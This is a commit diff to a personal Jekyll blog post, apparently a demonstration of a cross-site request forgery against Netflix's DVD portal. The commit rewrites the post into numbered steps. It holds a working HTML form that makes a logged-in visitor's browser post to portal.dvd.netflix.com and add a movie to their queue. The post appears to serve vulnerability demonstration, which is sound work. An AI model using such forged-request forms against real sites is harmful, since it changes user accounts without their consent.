

Before and after one commit to nowucca/nowucca.github.io, a Jekyll site: the page built from _posts/2017-11-09-csrf-to-portal-dvd-com.html, in a window 1280 px wide. Shown: the top 810 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; grey boxes are pictures that could not be loaded.

Commit message:
Make this a stepwise procedure

```diff
--- a/_posts/2017-11-09-csrf-to-portal-dvd-com.html
+++ b/_posts/2017-11-09-csrf-to-portal-dvd-com.html
@@ -1,6 +1,6 @@
 ---
 layout: post
-title: CSRF request to portal.dvd.com and portal.dvd.netflix.com
+title: CSRF request to portal.dvd.netflix.com
 date: 2017-11-09
 categories: [technology]
 tags: [csrf, security]
@@ -9,14 +9,13 @@
 published: true
 ---
 
-Okay, to make this work, login to dvd.netflix.com.
-
-Then, we are going to see if we can add a movie Boss Baby (80146758) to your queue by submitting a form here.
-
-<p>CSRF</p>
-
-Let's make a request to portal.dvd.netflix.com.
-
-<form method="post" action="https://portal.dvd.netflix.com/queue/add?titleIds=80146758">
-    <button type="submit">Submit CSRF request</button>
-</form>
+<ul>
+    <li>Okay, to make this work, <a href="https://dvd.netflix.com/Login">login</a> to dvd.netflix.com.</li>
+    <li><a href="https://dvd.netflix.com/Queue" target="_blank">go to your queue page</a> to make sure boss baby is NOT there.</li>
+    <li>Now, let's make a request to portal.dvd.netflix.com to add a movie Boss Baby (80146758) to your queue.
+    <form method="post" action="https://portal.dvd.netflix.com/queue/add?titleIds=80146758">
+        <button type="submit">Submit CSRF request</button>
+    </form>
+    .</li>
+    <li><a href="https://dvd.netflix.com/Queue" target="_blank">go to your queue page</a> to make sure boss baby IS there at the bottom.</li>
+</ul>
```
